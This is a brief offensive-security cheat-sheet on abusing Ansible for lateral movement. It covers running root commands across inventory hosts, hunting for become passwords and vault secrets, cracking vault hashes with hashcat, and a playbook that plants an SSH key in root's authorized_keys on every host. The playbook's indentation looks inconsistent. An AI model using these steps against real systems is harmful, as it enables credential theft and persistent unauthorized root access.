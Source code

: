 # Ansible

### General

#### Inventory File \(controlled machines\):

```text
/etc/ansible/hosts
```

Usually ansibles SSH key is accepted on controlled machines \(usually with sudo/root privileges\).

#### Run Commands on inventory machines:

```text
ansible <group> -a "whoami"
```

"Become" can be used to su to a specific user \(default is root\).

```text
ansible <group> -a "whoami" --become
```

#### Exposed credentials

Grep for:

```text
ansible_become_pass
become_user
ANSIBLE_VAULT
```

Encrypted vault passwords can be cracked with `ansible2john` and hashcat with type 16900.

#### Misc

* Check for exposed credentials in syslog
* Check for playbook backups

### Playbooks

Write authorized\_keys file via playbook:

```text
---
- name: Get system info
    hosts: all
    gather_facts: true
    become: yes
    tasks:
      - name: Display info
        debug:
          msg: "..."
    - name: Create dir
      file:
        path: /root/.ssh
        state: directory
        mode: '0700'
        owner: root
        group: root
    - name: Create authorized_keys
      file:
        path: /root/.ssh/authorized_keys
        state: touch
        mode: '0600'
        owner: root
        group: root
    - name: Update keys
      lineinfile:
        path: /root/.ssh/authorized_keys
        line: "ssh-rsa ...."
        insertbefore: EOF
```

Run shell commands:

```text
- name: Cmd
    shell: whoami
    async: 10
    poll: 0
```

